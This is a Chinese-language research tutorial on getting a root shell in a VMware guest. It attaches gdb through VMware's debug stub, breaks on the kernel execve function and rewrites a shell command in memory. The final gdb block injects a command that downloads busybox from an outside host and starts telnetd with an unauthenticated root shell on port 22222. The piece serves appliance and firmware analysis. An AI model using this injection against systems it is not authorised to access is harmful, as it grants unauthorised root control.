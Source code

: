 ## 通过虚拟机调试获取Root Shell

### 参考文章 

https://wzt.ac.cn/2021/05/12/vm_shell/ 一些虚拟机获取 shell 的方法

### 前言

在参考文章中提到一种通过虚拟机调试的方式获取虚拟机root shell。<br>
不过用参考文章中的方法得到root shell时，系统是没有完全初始化的，网络也没有起来，很不方便，于是本文在参考文章的基础上进行了一些改进。<br>
这算是一种比较通用的获取虚拟机root shell方法，不用去修改文件系统，不用管文件系统初始化校验。

### **如何对虚拟机进行调试**

vmware workstation 提供了虚拟机调试接口，官方文档指出只需要在虚拟机的 vmx 文件中添加以下选项，即可在外部使用 gdb 附加到虚拟机上，从而实现对虚拟机的调试。<br>

```
debugStub.listen.guest64 = "TRUE"
debugStub.listen.guest64.remote = "TRUE"
debugStub.port.guest64 = "12347"
debugStub.listen.guest32 = "TRUE"
debugStub.listen.guest32.remote = "TRUE"
debugStub.port.guest32 = "12348"
```

目标虚拟机是64位系统，就使用debugStub.port.guest64作为gdb远程调试端口。<br>
目标虚拟机是32位系统，就使用debugStub.port.guest32作为gdb远程调试端口。<br>
其他虚拟机软件VirtualBox,Qemu等等应该也有类似的方法进行虚拟机调试，暂未具体研究。<br>
在虚拟机的 vmx 文件中添加选项后，启动虚拟机，待虚拟机完全启动进入系统后，执行gdb命令远程附加。<br>

```
# gdb
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04.1) 9.2
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
(gdb) target remote 0:12347
Remote debugging using 0:12347
warning: No executable has been specified and target does not support
determining executable automatically.  Try using the "file" command.
0xffffffff819b3eae in ?? ()
(gdb)
```

### 获取Root Shell基本思路

在系统运行时，肯定会执行system/exec类函数，底层都是调用系统内核函数。<br>
不管哪个内核exec系统调用都会调用_do_execve_file_isra_45函数。<br>
![image-20230621134851416](./Images/image-20230621134851416.png)<br>
所以我们在内核_do_execve_file_isra_45函数处下断点，断下后更改函数参数，注入我们自己的命令，即可获取Root Shell.<br>

#### 一些技巧

1.定位_do_execve_file_isra_45函数位置<br>
a)有内核elf文件时<br>
一般内核elf文件中是没有符号的，如果有符号就直接可以定位_do_execve_file_isra_45函数位置。<br>
没有符号时，可以通过HOME=/字符串定位run_init_process函数，进而定位_do_execve_file_isra_45函数位置。<br>
![image-20230621140554288](./Images/image-20230621140554288.png)<br>
![image-20230621140609507](./Images/image-20230621140609507.png)<br>
b)无内核elf文件时<br>
暂未研究成功，先搁置。<br>
2.断点技巧<br>
目标是找到一个参数是/bin/sh -c xxx的调用，这样就可以直接修改xxx的值进行命令修改，可以在_do_execve_file_isra_45函数处下条件断点过滤参数。<br>

```
break *0xffffffff811c2fb0 if *(*(long long*)($rsi))==0x6e69622f

Thread 1 hit Breakpoint 1, 0xffffffff811c2fb0 in ?? ()
(gdb) x/6gx $rcx
0x7ffd6c4acf10: 0x00007f3463d22ae9      0x00007f3463d22ae1
0x7ffd6c4acf20: 0x000000000066c0a0      0x0000000000000000
0x7ffd6c4acf30: 0x00007f3464833f82      0x00007ffd6c4acfc0
(gdb) x/s 0x000000000066c0a0
0x66c0a0:       "/usr/bin/lsb_release -sd 2>/dev/null"
(gdb)

修改对应的命令

set {char [113]} 0x000000000066c0a0 = "cd /tmp;/bin/busybox wget http://192.168.248.1:8000/busybox -O telnetd;chmod +x telnetd;./telnetd -p 22222 -l sh"

继续执行即可获取一个root shell
```

#### End
读者有责任遵守其所在国家或地区的所有法律。<br/>
作者不对使用本博客任何文章中提到的任何内容所造成的任何损害负责。<br/>
本博客全部文章遵循 CC-BY-SA-4.0 协议。<br/>
https://creativecommons.org/licenses/by-sa/4.0/<br/><br/>
欢迎关注我的微信公众号！<br/>
![qrcode](Images/qrcode.jpg)